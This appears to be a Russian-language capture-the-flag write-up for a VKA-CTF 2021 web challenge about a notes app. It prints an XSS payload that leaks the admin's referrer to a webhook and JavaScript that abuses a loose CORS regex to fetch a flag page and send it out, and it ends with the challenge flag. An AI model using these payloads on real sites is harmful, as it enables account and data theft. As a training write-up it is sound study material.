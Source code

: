 ## Безликие заметки

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKA-CTF`2021 | Безликие заметки | Web | hard |

### Описание

> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> Один из наших агентов, находящийся в компании СССР 2.0 и приближенный к руководству на Земле, недавно доложил, что у них есть [приложение](https://main.beautiful-notes.ml) для анонимного создания заметок, которыми они делятся с правительством Земли. Агент смог вытащить исходные коды приложения, но вот проанализировать их и сделать выводы у него не хватает знаний! Также он узнал, что если получить доступ администратора, то компания Космос Х сможет тайно подслушивать все обращения пользователей. Нужно получить его как можно скорее! Время уходит, они могут в любой момент узнать об утечке. Поторопитесь, мы не забудем наших героев!

### Решение
![](images/main.png)

Приложение позволяет создать личный аккаунт, добавить заметки и поделиться ими с админом.

Из исходного кода можно понять, что если при создании заметки добавить поле `style`, то данная заметка будет отображаться на странице небезопасным способом (`XSS`):

```html
<p
    v-if="post.style"
    v-html="postWithStyles(post)">
</p>
<p v-else>
    {{post.content}}
</p>
```

Домен администратора скрыт. Используя уязвимость XSS можно узнать поле `Referrer`. Для этого необходимо создать заметку следующим запросом и поделиться ей с админом:

```json
{
    "title":"krause",
    "content":"<input autofocus onfocus=location.replace(`http://<webhook>/${btoa(document.referrer)}`)></input>",
    "style":"background-color:black;"
}
```

Зная домен, мы можем заставить администратора получить содержимое страницы `/iwantflag` и отправить его нам, но сделать это с поддомена `main` нам запрещает мезанизм защиты `CORS` (Mixed Content).

![](images/mixed-content.png)

Можно заметить, что регуляное выражение, которое описывает заголовок `Access-Control-Allow-Origin` настроено неверно:
```js
const any_subdomain = new RegExp(`http:\/\/.*${process.env.MAIN_DOMAIN}$`)
```
Зарегистрировав свой домен, который оканчивается на `beautifyl-notes.ml`, мы можем разместить на нём JS код, который заставит админа получить содержимое страницы с флагом:
```js
fetch('http://adminsubdomain.beautiful-notes.ml/iwantflag')
.then(response => response.text())
.then(data => fetch(`http://<webhook>/&flag=${unescape(encodeURIComponent(data))}`)));
```

Подождав не больше минуты получаем флажок

**Флаг:**

> vka{c0r5_m15c0nf16_4nd_x55}